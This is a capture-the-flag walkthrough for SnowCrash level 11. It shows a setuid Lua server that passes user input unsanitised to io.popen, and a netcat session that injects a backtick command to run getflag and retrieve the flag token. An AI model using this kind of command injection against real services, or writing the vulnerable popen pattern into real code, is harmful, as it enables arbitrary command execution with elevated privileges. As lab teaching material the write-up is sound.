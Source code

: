# Level11

## Hint

Perhaps you could exploit the `hash` function.

## Answer

Let's check our current directory:
```
level11@SnowCrash:~$ ll
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout*
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua*
-r-x------  1 level11 level11  675 Apr  3  2012 .profile*
```

Let's first read the contents of the `level11.lua` file:
```lua
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

Alright seems like there is will be a server on port 5151, furthermore it will ask for a password when we try to connect, let's run it first:
```
level11@SnowCrash:~$ ./level11.lua
lua: ./level11.lua:3: address already in use
stack traceback:
        [C]: in function 'assert'
        ./level11.lua:3: in main chunk
        [C]: ?
```

Seems like the server is already running, let's connect to it using `netcat`:
```
level11@SnowCrash:~$ nc localhost 5151
Password: test
Erf nope..
```

From the code we can see that it will check if the password is equal to the hash: `f05d1d066fb246efe0c6f7d095f909a7a0cf34a0`, however getting the password correct just prints a different string so there is not point in reversing the hash. We notice that the `hash` function is executing a bash command and that our input is being sent to it as a command line argument. Therefore we can exploit it:
```
level11@SnowCrash:~$ nc localhost 5151
Password: `getflag > /tmp/flag`
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

Simple as that ! 